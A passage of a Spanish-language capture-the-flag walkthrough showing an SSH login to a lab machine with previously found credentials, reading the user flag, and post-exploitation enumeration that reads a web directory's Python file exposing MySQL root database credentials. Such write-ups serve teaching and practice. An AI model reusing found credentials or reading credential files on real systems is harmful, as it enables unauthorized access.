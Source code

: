 
Comprobemos si sirven las credenciales que encontramos en este servicio:
```bash
ssh yolanda@192.168.100.90
yolanda@192.168.100.90's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)
...
Last login: Fri Jun  7 16:00:19 2024
-bash-5.1$ whoami
yolanda
```
Estamos dentro.

Aquí encontraremos la flag del usuario:
```bash
-bash-5.1$ ls
user.txt
-bash-5.1$ cat user.txt
...
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="linEnum">Enumeración de la Máquina Víctima</h2>

En el directorio `/var/www/html` encontraremos los archivos de la página web:
```bash
-bash-5.1$ ls -la /var/www/html/
total 32
drwxr-xr-x 3 root     root      4096 Jun  6  2024 .
drwxr-xr-x 3 root     root      4096 Apr 30  2024 ..
-rw-r--r-- 1 root     root     10671 Apr 30  2024 index.html
-rw-r--r-- 1 root     root       487 Apr 30  2024 mysql-connector-python.py
-rw-r--r-- 1 root     root        33 Apr 30  2024 robots.txt
drwxr-xr-x 7 www-data www-data  4096 May  1  2024 xyprob
```

Si revisamos ese archivo **mysql-connector-python.py**, veremos las credenciales de acceso a la BD **ctf_db**:
```bash
-bash-5.1$ cat mysql-connector-python.py
import mysql.connector

# Conexión a la base de datos
db_connection = mysql.connector.connect(
    host="localhost",
    user="root",
    password="",
    database="ctf_db"
)

# Crear un cursor para ejecutar consultas SQL
cursor = db_connection.cursor()

# Ejecutar una consulta SQL (ejemplo)
cursor.execute("SELECT * FROM users WHERE username = 'nombre_usuario' AND password = 'contraseña'")

# Obtener resultados
results = cursor.fetchall()

# Cerrar conexión
```